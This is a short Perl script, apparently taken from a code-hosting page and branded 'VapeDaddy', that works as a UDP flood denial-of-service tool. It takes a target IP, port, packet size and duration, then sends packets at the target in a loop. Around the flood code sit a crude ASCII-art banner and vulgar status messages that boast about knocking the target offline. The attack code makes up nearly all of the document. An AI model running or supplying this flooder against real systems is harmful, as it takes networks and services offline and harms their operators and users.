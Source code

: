 #!/usr/bin/perl

use Term::ANSIColor qw(:constants);
    $Term::ANSIColor::AUTORESET = 2;

##
# VapeDaddy 
##

use Socket;
use strict;

my ($ip,$port,$size,$time) = @ARGV;

my ($iaddr,$endtime,$psize,$pport);

$iaddr = inet_aton("$ip") or die "Cannot resolve hostname $ip\n";
$endtime = time() + ($time ? $time : 100);
socket(flood, PF_INET, SOCK_DGRAM, 17);

print BOLD RED<<EOTEXT;

MMMMMMMMMMMMMMMMMMMMM                              MMMMMMMMMMMMMMMMMMMMM
 `MMMMMMMMMMMMMMMMMMMM           N    N           MMMMMMMMMMMMMMMMMMMM'
   `MMMMMMMMMMMMMMMMMMM          MMMMMM          MMMMMMMMMMMMMMMMMMM'  
     MMMMMMMMMMMMMMMMMMM-_______MMMMMMMM_______-MMMMMMMMMMMMMMMMMMM    
      MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM    
      MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM    
      MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM    
     .MMMMMMMMMMMMMMMMMMMMMM      AKU       MMMMMMMMMMMMMMMMMMMMMM.    
    MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM  
                   `MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM'                
                          `MMMMMMMMMMMMMMMMMM'                    
                              `MMMMMMMMMM'                              
                                 MMMMMM                         
                                  MMMM                                  
                                   MM                                  


EOTEXT

print "MemeCFW and The Bat Dropped Yo Shit $ip " . ($port ? $port : "Sucking The Clit") . " With " . 
  ($size ? "$size-Slammed" : "65500") . "Bots" . 
  ($time ? " for $time seconds" : "") . "\n";
print "Stop NULLING With Ctrl-C\n" unless $time;
 
for (;time() <= $endtime;) {
  $psize = $size ? $size : int(rand(1024-64)+64) ;
  $pport = $port ? $port : int(rand(65500))+1;
 
  send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport, $iaddr));}
